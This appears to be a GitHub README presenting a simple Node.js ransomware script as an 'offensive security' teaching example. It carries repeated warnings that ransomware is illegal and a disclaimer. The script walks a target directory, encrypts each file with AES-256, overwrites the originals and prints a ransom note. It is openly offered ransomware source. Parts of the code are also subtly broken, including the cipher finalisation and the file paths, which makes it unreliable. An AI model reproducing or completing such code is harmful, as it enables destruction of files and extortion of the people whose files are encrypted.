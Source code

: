 # Ransomware Code in JavaScript (Example)
##### RedTeam - Techniques for 'Offensive Security' by Volkan Sah - Simple Codings (update 04/2023)

⚠️ Please note that exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. Use this tool responsibly and only on networks you have permission to access. ⚠️

Ransomware attacks are one of the most destructive and malicious types of cyber threats, often resulting in significant financial losses and personal data theft. It is important to understand the mechanisms of ransomware attacks in order to protect yourself and your systems from these malicious threats.

This JavaScript code provides a simplified example of a ransomware attack and its underlying techniques. It is intended for educational and ethical hacking purposes only, and should not be used for any illegal or unethical activities. It is important to always abide by the law and use technology responsibly and ethically to promote positive outcomes for society.


## Example 
```javascript
// Ransomware code (for demonstration purposes only)
var fs = require('fs');
var crypto = require('crypto');

// The first step is to identify the directory to be targeted for file encryption.
// Directory to target for file encryption
var targetDirectory = '/user/files';

// Generate encryption key
// Once the encryption key is generated, the code will read all files in the target directory.
var encryptionKey = crypto.randomBytes(32).toString('hex');

// Read all files in the target directory
fs.readdirSync(targetDirectory).forEach(file => {
  // Skip directories
  if (fs.lstatSync(file).isDirectory()) return;

  // Read file data
  var data = fs.readFileSync(file);

  // Encrypt file data with encryption key
  var encryptedData = crypto
    .createCipher('aes-256-cbc', encryptionKey)
    .update(data, 'utf8', 'hex') +
    crypto.createCipher.final('hex');

  // Write encrypted data back to file
  // Finally, the code will display a ransom note to the user, demanding payment in exchange for the decryption key.

  fs.writeFileSync(file, encryptedData);
});

// Display ransom note to user
var ransomNote = `
Your files have been encrypted!
e.g
`;

console.log(ransomNote);

```

##  Note
As technology continues to advance, it's more important than ever to protect ourselves and our systems from malicious attacks. With the rise of dangerous JavaScript techniques that can be executed through the browser, it's crucial to take proactive measures to safeguard your browsing experience. By utilizing browser add-ons such as NoScript and Privacy Badger, you can protect yourself from potential threats and enjoy a safer, more secure online experience. Remember, it's not just about protecting yourself - it's about promoting a culture of responsible technology use that benefits society as a whole

## Disclaimer
The developer of this script is not responsible for any misuse or damage caused by this tool. It is the user's responsibility to ensure that they have the necessary permissions to use this tool on their chosen networks. Only for educational and ethical hacking purposes only!

## Issues
Issues to this script are not accepted as it is intended for educational purposes only and not for production use.

## WARNING! AGAIN!
**⚠️ exploiting security vulnerabilities without permission and creating or using ransomware is illegal and unethical, and may result in criminal charges. ⚠️**

## License
This project is licensed under the MIT License. 

## Credits
[Volkan Sah](https://github.com/volkansah)

